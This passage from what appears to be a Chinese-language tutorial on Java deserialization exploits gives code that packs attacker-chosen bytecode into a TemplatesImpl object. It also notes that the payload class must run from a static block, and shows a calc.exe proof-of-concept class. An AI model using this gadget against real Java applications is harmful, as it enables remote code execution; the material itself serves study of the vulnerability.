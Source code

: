```java
    public static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Class<?> clazz = Class.forName(obj.getClass().getName());
        Field field1 = clazz.getDeclaredField(field);
        field1.setAccessible(true);
        field1.set(obj, value);
    }

    public static TemplatesImpl creatTemplatesImpl(Class payloadClass) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payloadClass));
        CtClass clazz = pool.get(payloadClass.getName());
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        clazz.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] bytecodes = clazz.toBytecode();
        // templatesImpl
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "pwn");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytecodes});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        return templates;
    }

}
```

### 其他注意事项

执行的恶意类模块必须放在 static里面执行，放在main函数里面是执行不了的。

```java
package demo2;

import java.io.IOException;

public class Test {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        System.out.println(1);
    }
}

```

### 分析
